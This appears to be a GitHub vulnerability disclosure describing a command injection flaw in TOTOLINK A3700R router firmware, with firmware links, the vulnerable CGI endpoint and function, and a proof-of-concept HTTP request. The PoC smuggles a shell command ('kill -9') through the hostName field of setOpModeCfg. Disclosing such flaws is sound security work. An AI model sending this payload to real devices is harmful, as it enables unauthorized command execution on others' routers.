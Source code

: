 # TOTOLINK_A3700R_V9.1.2u.6165_20211012has a command injection vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

[![image-20240104001414887](./image/image-20240104001414887.png)](https://github.com/Covteam/iot_vuln/blob/main/setOpModeCfg/image/image-20240104001414887.png)

## Vulnerability details

TOTOLINK_A3700R_V9.1.2u.6165_20211012

`/www/cgi-bin/cstecgi.cgi`

in ` sub_42455C`

![image-20240104141204292](./image/image-20240104141204292.png)

caused command injection in doSystem

PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: joe1sn.top:18880
Content-Length: 122
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://joe1sn.top:18880
Referer: http://joe1sn.top:18880/advance/diagnosis.html?time=1704342495749
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1704348391:2
Connection: close


{"opmode":"gw","wifiIdx_rpt":"1","switchOpMode":"1","proto":"5","hostName":"';kill -9 1071;#","topicurl":"setOpModeCfg"}
```

![image-20240104141339855](./image/image-20240104141339855.png)
